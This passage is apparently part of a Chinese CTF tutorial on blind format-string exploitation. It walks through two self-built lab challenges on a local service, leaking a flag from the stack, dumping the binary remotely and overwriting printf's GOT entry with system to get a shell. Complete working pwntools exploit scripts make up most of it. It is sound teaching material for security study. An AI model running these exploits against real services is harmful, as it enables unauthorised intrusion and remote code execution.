    sh.recvuntil('Description: ')
    sh.recvuntil('Description: ')
    #gdb.attach(sh)
    print 'get shell'
    sh.recvuntil('>>> ')
    #get shell
    sh.sendline('5')
    sh.interactive()

需要注意的是，这样并不能稳定得到shell，因为我们一次性输入了太长的字符串。但是我们又没有办法在前面控制所想要输入的地址。只能这样了。

格式化字符串盲打
================

原理
----

所谓格式化字符串盲打指的是只给出可交互的ip地址与端口，不给出对应的binary文件来让我们进行pwn，其实这个和BROP差不多，不过BROP利用的是栈溢出，而这里我们利用的是格式化字符串漏洞。一般来说，我们按照如下步骤进行

-  确定程序的位数
-  确定漏洞位置
-  利用

由于没找到比赛后给源码的题目，所以自己简单构造了两道题。

例子1-泄露栈
------------

源码和部署文件均放在了对应的文件夹fmt\_blind\_stack中。

确定程序位数
~~~~~~~~~~~~

我们随便输入了%p，程序回显如下信息

.. code:: shell

    ➜  blind_fmt_stack git:(master) ✗ nc localhost 9999
    %p
    0x7ffd4799beb0
    G�flag is on the stack%                          

告诉我们flag在栈上，同时知道了该程序是64位的，而且应该有格式化字符串漏洞。

利用
~~~~

那我们就一点一点测试看看

.. code:: python

    from pwn import *
    context.log_level = 'error'


    def leak(payload):
        sh = remote('127.0.0.1', 9999)
        sh.sendline(payload)
        data = sh.recvuntil('\n', drop=True)
        if data.startswith('0x'):
            print p64(int(data, 16))
        sh.close()


    i = 1
    while 1:
        payload = '%{}$p'.format(i)
        leak(payload)
        i += 1

最后在输出中简单看了看，得到flag

.. code:: shell

    ////////
    ////////
    \x00\x00\x00\x00\x00\x00\x00\xff
    flag{thi
    s_is_fla
    g}\x00\x00\x00\x00\x00\x00
    \x00\x00\x00\x00\xfe\x7f\x00\x00

例子2-盲打劫持got
-----------------

源码以及部署文件均已经在blind\_fmt\_got文件夹中。

确定程序位数
~~~~~~~~~~~~

通过简单地测试，我们发现这个程序是格式化字符串漏洞函数，并且程序为64位。

.. code:: shell

    ➜  blind_fmt_got git:(master) ✗ nc localhost 9999
    %p
    0x7fff3b9774c0

这次啥也没有回显，又试了试，发现也没啥情况，那我们就只好来泄露一波源程序了。

确定偏移
~~~~~~~~

在泄露程序之前，我们还是得确定一下格式化字符串的偏移，如下

.. code:: shell

    ➜  blind_fmt_got git:(master) ✗ nc localhost 9999
    aaaaaaaa%p%p%p%p%p%p%p%p%p
    aaaaaaaa0x7ffdbf920fb00x800x7f3fc9ccd2300x4006b00x7f3fc9fb0ab00x61616161616161610x70257025702570250x70257025702570250xa7025

据此，我们可以知道格式化字符串的起始地址偏移为6。

泄露binary
~~~~~~~~~~

由于程序是64位，所以我们从0x400000处开始泄露。一般来说有格式化字符串漏洞的盲打都是可以读入':raw-latex:`\x`00'字符的，，不然没法泄露怎么玩，，除此之后，输出必然是':raw-latex:`\x`00'截断的，这是因为格式化字符串漏洞利用的输出函数均是':raw-latex:`\x`00'截断的。。所以我们可以利用如下的泄露代码。

.. code:: python

    #coding=utf8
    from pwn import *

    #context.log_level = 'debug'
    ip = "127.0.0.1"
    port = 9999


    def leak(addr):
        # leak addr for three times
        num = 0
        while num < 3:
            try:
                print 'leak addr: ' + hex(addr)
                sh = remote(ip, port)
                payload = '%00008$s' + 'STARTEND' + p64(addr)
                # 说明有\n，出现新的一行
                if '\x0a' in payload:
                    return None
                sh.sendline(payload)
                data = sh.recvuntil('STARTEND', drop=True)
                sh.close()
                return data
            except Exception:
                num += 1
                continue
        return None

    def getbinary():
        addr = 0x400000
        f = open('binary', 'w')
        while addr < 0x401000:
            data = leak(addr)
            if data is None:
                f.write('\xff')
                addr += 1
            elif len(data) == 0:
                f.write('\x00')
                addr += 1
            else:
                f.write(data)
                addr += len(data)
        f.close()
    getbinary()

需要注意的是，在payload中需要判断是否有':raw-latex:`\n`'出现，因为这样会导致源程序只读取前面的内容，而没有办法泄露内存，所以需要跳过这样的地址。

分析binary
~~~~~~~~~~

利用ida打开泄露的binary，改变程序基地址，然后简单看看，可以基本确定源程序main函数的地址

.. code:: assembly

    seg000:00000000004005F6                 push    rbp
    seg000:00000000004005F7                 mov     rbp, rsp
    seg000:00000000004005FA                 add     rsp, 0FFFFFFFFFFFFFF80h
    seg000:00000000004005FE
    seg000:00000000004005FE loc_4005FE:                             ; CODE XREF: seg000:0000000000400639j
    seg000:00000000004005FE                 lea     rax, [rbp-80h]
    seg000:0000000000400602                 mov     edx, 80h ; '€'
    seg000:0000000000400607                 mov     rsi, rax
    seg000:000000000040060A                 mov     edi, 0
    seg000:000000000040060F                 mov     eax, 0
    seg000:0000000000400614                 call    sub_4004C0
    seg000:0000000000400619                 lea     rax, [rbp-80h]
    seg000:000000000040061D                 mov     rdi, rax
    seg000:0000000000400620                 mov     eax, 0
    seg000:0000000000400625                 call    sub_4004B0
    seg000:000000000040062A                 mov     rax, cs:601048h
    seg000:0000000000400631                 mov     rdi, rax
    seg000:0000000000400634                 call    near ptr unk_4004E0
    seg000:0000000000400639                 jmp     short loc_4005FE

可以基本确定的是sub\_4004C0为read函数，因为读入函数一共有三个参数的话，基本就是read了。此外，下面调用的sub\_4004B0应该就是输出函数了，再之后应该又调用了一个函数，此后又重新跳到读入函数处，那程序应该是一个while
1的循环，一直在执行。

利用思路
~~~~~~~~

分析完上面的之后，我们可以确定如下基本思路

-  泄露printf函数的地址，
-  获取对应libc以及system函数地址
-  修改printf地址为system函数地址
-  读入/bin/sh;以便于获取shell

利用程序
~~~~~~~~

程序如下。

.. code:: python

    #coding=utf8
    import math
    from pwn import *
    from LibcSearcher import LibcSearcher
    #context.log_level = 'debug'
    context.arch = 'amd64'
    ip = "127.0.0.1"
    port = 9999


    def leak(addr):
        # leak addr for three times
        num = 0
        while num < 3:
            try:
                print 'leak addr: ' + hex(addr)
                sh = remote(ip, port)
                payload = '%00008$s' + 'STARTEND' + p64(addr)
                # 说明有\n，出现新的一行
                if '\x0a' in payload:
                    return None
                sh.sendline(payload)
                data = sh.recvuntil('STARTEND', drop=True)
                sh.close()
                return data
            except Exception:
                num += 1
                continue
        return None


    def getbinary():
        addr = 0x400000
        f = open('binary', 'w')
        while addr < 0x401000:
            data = leak(addr)
            if data is None:
                f.write('\xff')
                addr += 1
            elif len(data) == 0:
                f.write('\x00')
                addr += 1
            else:
                f.write(data)
                addr += len(data)
        f.close()


    #getbinary()
    read_got = 0x601020
    printf_got = 0x601018
    sh = remote(ip, port)
    # let the read get resolved
    sh.sendline('a')
    sh.recv()
    # get printf addr
    payload = '%00008$s' + 'STARTEND' + p64(read_got)
    sh.sendline(payload)
    data = sh.recvuntil('STARTEND', drop=True).ljust(8, '\x00')
    sh.recv()
    read_addr = u64(data)

    # get system addr
    libc = LibcSearcher('read', read_addr)
    libc_base = read_addr - libc.dump('read')
    system_addr = libc_base + libc.dump('system')
    log.success('system addr: ' + hex(system_addr))
    log.success('read   addr: ' + hex(read_addr))
    # modify printf_got
    payload = fmtstr_payload(6, {printf_got: system_addr}, 0, write_size='short')
    # get all the addr
    addr = payload[:32]
    payload = '%32d' + payload[32:]
    offset = (int)(math.ceil(len(payload) / 8.0) + 1)
    for i in range(6, 10):
        old = '%{}$'.format(i)
        new = '%{}$'.format(offset + i)
        payload = payload.replace(old, new)
    remainer = len(payload) % 8
    payload += (8 - remainer) * 'a'
    payload += addr
    sh.sendline(payload)
    sh.recv()

    # get shell
    sh.sendline('/bin/sh;')
    sh.interactive()

这里需要注意的是这一段代码

.. code:: python

    # modify printf_got
    payload = fmtstr_payload(6, {printf_got: system_addr}, 0, write_size='short')
    # get all the addr
    addr = payload[:32]
    payload = '%32d' + payload[32:]
    offset = (int)(math.ceil(len(payload) / 8.0) + 1)
    for i in range(6, 10):
        old = '%{}$'.format(i)
        new = '%{}$'.format(offset + i)
        payload = payload.replace(old, new)
    remainer = len(payload) % 8
    payload += (8 - remainer) * 'a'
    payload += addr
    sh.sendline(payload)
    sh.recv()

fmtstr\_payload直接得到的payload会将地址放在前面，而这个会导致printf的时候':raw-latex:`\x`00'截断（\ **关于这一问题，pwntools目前正在开发fmt\_payload的加强版，估计快开发出来了。**\ ）。所以我使用了一些技巧将它放在后面了。主要的思想是，将地址放在后面8字节对齐的地方，并对payload中的偏移进行修改。需要注意的是

.. code:: python

    offset = (int)(math.ceil(len(payload) / 8.0) + 1)

这一行给出了修改后的地址在格式化字符串中的偏移，之所以是这样在于无论如何修改，由于'%order$hn'中order多出来的字符都不会大于8。具体的可以自行推导。
